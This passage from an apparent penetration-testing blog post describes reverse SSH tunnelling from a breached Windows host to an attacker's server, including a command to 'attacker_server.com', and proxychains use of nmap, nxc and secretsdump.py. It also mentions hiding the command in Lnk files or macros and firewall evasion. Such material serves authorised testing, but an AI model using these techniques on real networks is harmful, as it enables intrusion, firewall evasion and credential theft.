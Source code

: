 Or use the full path, on for example port 8888

> ```
> C:\Windows\System32\OpenSSH\ssh.exe -R 8888 user@attacker_server.com
> ```

_On assumed breach gigs we have a quick trick to check whether outbound SSH is allowed which I will elaborate in the next section._

![ssh_screenshot1](images/screenshot1.png "screenshot1")

Here we assume you have a VPS with a static IP / DNS record pointing to the VPS, on the internet. If you so choose to use password authentication, do set up IP allowlisting on your client’s and your own egress IP only to avoid being brute-forced. Then on your VPS / attacking server, set up /etc/proxychains.conf as usual. Specifying the remote server’s proxychains.conf to use SOCKS5 would enable the additional compatibility of UDP and thus DNS lookups through the tunnel as well:

> ```
> socks5 	127.0.0.1 8888
> ```

Then you could run your commands on the attacking box with proxychains:

> ```
> proxychains nmap -sT -F internal_target_ip
> proxychains nxc smb internal_target_ip -u USER -p PASSWD --shares
> proxychains secretsdump.py ... and so on
> ```

On Red Siege’s [SSHishing](https://redsiege.com/blog/2024/04/sshishing-abusing-shortcut-files-and-the-windows-ssh-client-for-initial-access/) blog post the author described [not requiring a password OR key](https://superuser.com/questions/1489017/login-to-ssh-with-no-password-and-no-ssh-key) to login plus the -o "StrictHostKeyChecking=no" flag to disable the “Are you sure you want to continue connecting (Yes/No/Fingerprint)” message so that the command could be inside of an Lnk file or a Malicious Office macro, but I still have reservations regarding not requiring authentication to access your C2 server (even if it’s a limitaccess user with /bin/false as default shell).

### 2\. Azure domain / ASN to get pass firewall

#### Azure Domains

A good indication of the client’s firewall having absolutely no blocks on SSH is when an SSH host that they almost certainly have no use for is allowed, such as:
